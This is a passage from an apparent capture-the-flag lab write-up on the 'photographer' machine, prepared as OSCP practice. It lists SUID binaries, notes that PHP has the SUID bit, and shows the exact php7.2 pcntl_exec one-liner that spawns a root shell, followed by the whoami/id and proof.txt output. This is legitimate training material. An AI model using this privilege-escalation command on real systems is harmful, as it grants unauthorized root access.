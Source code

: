 ```bash
/usr/lib/openssh/ssh-keysign
/usr/lib/x86_64-linux-gnu/oxide-qt/chrome-sandbox
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/sbin/pppd
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/php7.2
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/chfn
/bin/ntfs-3g
/bin/ping
/bin/fusermount
/bin/mount
/bin/ping6
/bin/umount
/bin/su

```
It looks like we have identified a SUID bit on PHP. Now we should check [GTFObins PHP SUID](https://gtfobins.github.io/gtfobins/php/#suid) on how we can use this to gain root privileges.

-----
## Privilege escalation

```bash
www-data@photographer:/$ CMD="/bin/sh"
```

```bash
www-data@photographer:/$ ./usr/bin/php7.2 -r "pcntl_exec('/bin/sh', ['-p']);"
```
Since we got a new bash loaded we should check the user and the id of the user to see if we really are the root user.
```bash
# whoami;id
root
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
```
Change the working direcotry to the root directory and check for the root flag.
```bash
# cd /root
# ls
proof.txt
```
Now let's put the commands together and execute them as they should during the OSCP exam. You must take a screenshot of this during the exam.
```bash
# whoami;id;hostname;ifconfig;cat proof.txt
root
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
photographer
enp0s3    Link encap:Ethernet  HWaddr 08:00:27:ee:a0:2a  
          inet addr:10.0.2.26  Bcast:10.0.2.255  Mask:255.255.255.0
          inet6 addr: fe80::342a:ab5a:c8a:b97b/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:109129 errors:0 dropped:0 overruns:0 frame:0
          TX packets:122099 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:16282909 (16.2 MB)  TX bytes:42999127 (42.9 MB)

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
```